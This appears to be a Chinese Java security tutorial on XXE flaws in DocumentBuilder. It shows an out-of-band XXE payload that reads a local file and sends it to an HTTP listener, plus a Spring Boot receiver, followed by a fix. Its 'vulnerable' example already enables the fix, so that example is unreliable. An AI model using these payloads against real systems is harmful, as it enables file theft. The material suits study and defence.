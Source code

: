 java安全之xxe
--

xxe这种漏洞无论是在php中还是java中，审计起来应该都是有迹可循的，在php中全局搜索特定函数，在java中需要找解析xml文档的类有没有被使用，所以，我们首先需要知道java有哪些常见的解析xml的类。

### javax.xml.parsers.DocumentBuilder

这个类导致的xxe漏洞感觉挺多的。微信支付，以及CVE-2017-12629都是由于这个类没有进行安全设置导致的。

用一个例子来学习一下这个类怎么导致xxe

```java
import jdk.internal.org.xml.sax.SAXException;
import org.w3c.dom.Document;
import org.w3c.dom.NodeList;

import javax.xml.parsers.DocumentBuilder;
import javax.xml.parsers.DocumentBuilderFactory;
import javax.xml.parsers.ParserConfigurationException;
import java.io.IOException;

public class ReadxmlByDom {
    private static DocumentBuilderFactory dbFactory = null;
    private static DocumentBuilder db = null;
    private static Document document = null;
    static{
        try {
            dbFactory = DocumentBuilderFactory.newInstance();
            dbFactory.setFeature("http://apache.org/xml/features/disallow-doctype-decl", true);
            db = dbFactory.newDocumentBuilder();
        } catch (ParserConfigurationException e) {
            e.printStackTrace();
        }
    }

    public static void main(String args[]) throws IOException, SAXException, org.xml.sax.SAXException {
        document = db.parse(ReadxmlByDom.class.getResourceAsStream("/request.xml"));
        NodeList nodeList = document.getElementsByTagName("root");
        String nodeValue = nodeList.item(0).getFirstChild().getNodeValue();
        System.out.println(nodeValue);
    }
}
```

request.xml如下：

```xml
<?xml version="1.0"?>
<!DOCTYPE ANY[
        <!ENTITY % remote SYSTEM "http://localhost:8000/attack.xml">
        %remote;
        ]>
<root></root>
```

attack.xml如下：
```xml
<!ENTITY % payload  SYSTEM "file:///tmp/test123">
<!ENTITY % int "<!ENTITY &#37; trick SYSTEM 'http://127.0.0.1:8080/test?name=%payload;'>">
%int;
%trick;
```

上面的代码会读取并解析request.xml这个文件，由于没有进行安全配置，所以导致加载远程文件attack.xml，这个文件中的被解析后就会读取本地的`/tmp/test123`并把内容发送到http://127.0.0.1:8080/。

我在8080端口用spring boot构建了一个接受数据的web应用，代码如下：

```java

import org.springframework.stereotype.Controller;
import org.springframework.web.bind.annotation.RequestMapping;

@Controller
@RequestMapping("/test")
public class TestController {

    @RequestMapping("")
    public String hello(String name) {
        System.out.println(name);
        return "welcome";
    }
}
```

这个应用在接受到数据时，会将数据打印到控制台

![](assets/xxe_data.png)

###  防御方法

```java
DocumentBuilderFactory dbf = DocumentBuilderFactory.newInstance();
dbf.setFeature("http://apache.org/xml/features/disallow-doctype-decl", true);
DocumentBuilder db = dbf.newDocumentBuilder(); 
Document document = db.parse(in);
```

serFeature是关键，设置了过后，再解析xml时会直接报错，如下：

![](assets/xxe_defence.png)


### 参考

spring boot 快速创建项目：http://tengj.top/2017/02/26/springboot1/

微信支付xxe:https://benjaminwhx.com/2018/07/05/%E7%94%B1%E5%BE%AE%E4%BF%A1%E6%94%AF%E4%BB%98XXE%E6%BC%8F%E6%B4%9E%E8%B0%88%E8%B0%88%E6%94%BB%E5%87%BB%E5%8E%9F%E7%90%86%E4%BB%A5%E5%8F%8A%E5%A6%82%E4%BD%95%E9%A2%84%E9%98%B2/

java xxe:https://blog.spoock.com/2018/10/23/java-xxe/